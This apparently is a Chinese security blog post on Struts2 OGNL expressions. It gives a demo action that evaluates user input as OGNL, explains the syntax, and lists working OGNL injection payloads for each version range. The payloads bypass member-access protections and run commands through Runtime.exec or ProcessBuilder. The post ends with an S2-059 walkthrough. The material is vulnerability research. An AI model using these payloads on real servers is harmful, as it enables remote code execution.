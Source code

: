 ```yaml
---
layout:     post
title:      Struts2 ONGL 表达式
subtitle:   开始接触struts2框架、继续学习java的表达式
date:       2020-10-11
author:     BY Diego
header-img: img/wenzhang/post-bg-java-struts-ognl.jpg
catalog: true
tags:
    - Java
    - 命令注入
---
```




![0csDU0.png](https://s1.ax1x.com/2020/10/11/0csDU0.png)![0csDU0.png](https://s1.ax1x.com/2020/10/11/0csDU0.png)





### Ognl 表达式基本使用



使用方法：

```java
OgnlContext context = new OgnlContext()  //创建一个Ognl上下文环境
context.setRoot() //设置root元素 （根元素
context.put("id",1) //向环境变量中加入变量
Object ognl = Ognl.parseExpression("#id") //建立表达式 (取值
value = Ognl.getValue(ognl,context,context.getRoot()) //执行
```



demo 类

```java
package com.diego.demo;

import com.opensymphony.xwork2.Action;
import com.opensymphony.xwork2.ActionContext;
import ognl.Ognl;
import ognl.OgnlContext;

public class Ognl_test implements Action {

    public String payload;

    public class Users{
        Users(Integer age,String name){
            this.age = age;
            this.name = name;
        }
        public Integer age ;
        public String name ;
    }
    
    public String getPayload(){
        return payload;
    }

    @Override
    public String execute() throws Exception {
        // 创建 Action 容器
        ActionContext actionContext = ActionContext.getContext();
        if(payload != null){
			// 创建一个Ognl上下文环境
            OgnlContext context = new OgnlContext();
            Object value = null;
            try {
                // id = 1 加入环境变量
                context.put("id",1);
                Users users1 = new Users(1,"Diego1");
                Users users2 = new Users(2,"Diego2");
                // users1 users2 加入环境变量
                context.put("users1",users1);
                context.put("users2",users2);
                // 设置users1 为ROOT对象
                context.setRoot(users1);
				// 创建 Ognl 表达式
                Object ognl = Ognl.parseExpression(payload);
                // 解析表达式
                value = Ognl.getValue(ognl,context,context.getRoot());
            } catch (Exception e) {
                e.printStackTrace();
            }
            // 解析结果 放入Action 容器
            actionContext.put("res",value);
            System.out.println(value);
            return SUCCESS;
        }else{
            return ERROR;
        }
    }
}

```



结合上面例子看出Ognl语法为 ：

**访问非根元素 :**

* #[变量]    ----->  `#users2` ,`#id`

* #\[对象][属性]   ----->  `#users2.age`

* #\[对象]\[方法名]()   ----->  `#users2.test()`

**访问根元素：** （以一个对象为根元素 访问成员或方法时可以 去掉`#对象名.`

* \[对象][属性]  ----->  `age`,`name`
* \[对象]\[方法名]()  ----->  `test()`

  **调用方法**：

* `xxx.getName()`

**支持类静态的方法调用和值访问**

 格式：`@[类全名（包括包路径）]@[方法名 |  值名]`

* 调用方法 `@java.lang.Runtime@getRuntime().exec('calc')`

* 调用成员 `@com.diego.demo.Ognl_test@aaa`  //

![0rYB28.png](https://s1.ax1x.com/2020/10/09/0rYB28.png)

**可以给上下文的变量赋值**

* 一般变量 `#id=111111,#id` 
* 成员变量 `#users2.age=99999,#users2.age`

![0rNxDe.png](https://s1.ax1x.com/2020/10/09/0rNxDe.png)

**静态方法调用**

* `@@min(1,2)`



**多语句执行**

* `().() 可以执行多语句`

### Ognl命令注入 历史漏洞

以下都是绕过`SecurityMemberAccess` 或者修改 `memberAccess`

**Struts 2.3.14.1版本前**

```
(#_memberAccess['allowStaticMethodAccess']=true).(@java.lang.Runtime@getRuntime().exec('calc'))
```

**2.3.14.1后 - 2.3.20版本前**

```
(#p=new java.lang.ProcessBuilder('calc')).(#p.start())
```



**2.3.20版本 - 2.3.28版本** (本地2.3.37 也可

```
(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(@java.lang.Runtime@getRuntime().exec('calc'))
```



**2.3.30(2.5.2)之后**

```
(#container=#context['com.opensymphony.xwork2.ActionContext.container']).
(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ognlUtil.excludedClasses.clear()).(#ognlUtil.excludedPackageNames.clear()).
(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).
(@java.lang.Runtime@getRuntime().exec('calc'))
```



**2.5.16**

```
第一次

(#context=#attr['struts.valueStack'].context).
(#container=#context['com.opensymphony.xwork2.ActionContext.container']).
(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))

第二次
(#context=#attr['struts.valueStack'].context).
(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).
(@java.lang.Runtime@getRuntime().exec('curl 127.0.0.1:9001'))
```





### Struts2 059

影响版本

Struts 2.0.0 - Struts 2.5.20

Apache Struts 2 会对某些标签属性（比如 id）的属性值进行二次表达式解析，并且在 Struts 标签属性内强制进行 OGNL 表达式解析时的情况因此在某些场景下将可能导致远程代码执行。



服务端代码 （及diego可控

```java
public class Ognl_test implements Action {
    
    public String diego ;
    public String getDiego(){
        return diego;
    }
    
    @Override
    public String execute() throws Exception {
        ActionContext actionContext = ActionContext.getContext();
        if(diego != null){
            actionContext.put("diego",diego);
            return SUCCESS;
        }else{
            return ERROR;
        }
    }
}
```



Ognl.jsp

![0cBkAf.png](https://s1.ax1x.com/2020/10/11/0cBkAf.png)





![0cDZa6.png](https://s1.ax1x.com/2020/10/11/0cDZa6.png)



`%{(#aaaa=123456).(#aaaa)}` ,可以执行Ognl 表达式

![0cruT0.png](https://s1.ax1x.com/2020/10/11/0cruT0.png)



绕过方法与`Ognl命令注入` 相同

s2-059 payload 与具体版本有关